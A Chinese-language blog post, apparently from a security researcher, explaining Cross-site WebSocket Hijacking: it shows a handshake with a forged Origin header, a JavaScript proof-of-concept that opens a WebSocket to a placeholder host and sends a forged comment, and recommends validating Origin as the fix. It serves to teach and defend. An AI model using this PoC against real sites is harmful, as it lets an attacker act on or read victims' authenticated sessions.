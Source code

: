 ```yaml
---
layout: post
author: Vulkey_Chen
title: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
date: 2019-03-20
music-id: 28661853
permalink: /archives/2019-03-20/1
description: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
---
```


# WebSocket 跨域劫持漏洞

WebSocket 跨域劫持漏洞，英文名：**Cross-site WebSocket Hijacking**，漏洞类型：全能型CSRF（可读、可写）。

## 了解WebSocket

### Websocket 优点

1. 支持双向通信，实时性更强。
2. 更好的二进制支持。
3. 较少的控制开销。连接创建后，ws客户端、服务端进行数据交换时，协议控制的数据包头部较小。在不包含头部的情况下，服务端到客户端的包头只有2~10字节（取决于数据包长度），客户端到服务端的话，需要加上额外4字节的掩码。而HTTP协议每次通信都需要携带完整的头部。
4. 支持扩展。ws协议定义了扩展，用户可以扩展协议，或者实现自定义的子协议。（比如支持自定义压缩算法等）

### Websocket 如何建立连接

画了一张图让你了解：

![websocket](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/CSWSH/0.png)


## 漏洞产生

建立Websocket连接无验证。

### 案例

1.如下请求：

```http
GET / HTTP/1.1
Host: localhost:8080
Origin: http://127.0.0.1:3000
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: w4v7O6xFTi36lq3RNcgctw==

```

篡改Origin，发现没有对Origin进行验证，也可以跨域进行协议升级。

2.进一步验证

2.1获取到了一个发送评论的请求 （**使用BurpSuite->Proxy模块->Websockets History查看，这里是对应的 Direction值为Outgoing为发出的请求，Incoming为发出请求对应的响应信息**）

![test](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/CSWSH/1.png)

2.2使用JavaScript创建Websocket请求

**如上图所示Outgoing的内容为“我是帅key的可爱小迷弟”，那么发送的数据就是这个**。

```html
<meta charset="utf-8">
<script>
function ws_attack(){
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
		ws.close();
	};
}
ws_attack();
</script>
```

2.3验证发现可以请求并成功进行重放，存在Websocket跨域劫持

（这里只是简单的评论请求，危害就是：点我链接让你评论我想评论的，试想：如果是修改密码的WebSocket请求存在劫持那么问题就大了～）

## 漏洞利用

攻击流程跟以往的交互类漏洞没什么区别（点我链接读取你XXX、点我链接让你XXX）：

![attack](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/CSWSH/2.png)

来一个圈子"铸剑实战靶场"的截图，自我体会：

![success](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/CSWSH/3.png)

### PoC代码编写

```html
<meta charset="utf-8">
<script>
function ws_attack(){//自定义函数ws_attack
    //定义函数功能
    //创建WebSocket并赋值给ws变量
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
        //当ws(WebSocket)处于连接状态时执行
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
        //当ws(WebSocket)请求有响应信息时执行
        //注意：响应的信息可以通过evt.data获取！例如：alert(evt.data);
		ws.close();
	};
}
ws_attack();//执行ws_attact函数
</script>
```

## 修复方法

综合建议：校验Origin头

# Reference

https://www.cnblogs.com/chyingp/p/websocket-deep-in.html
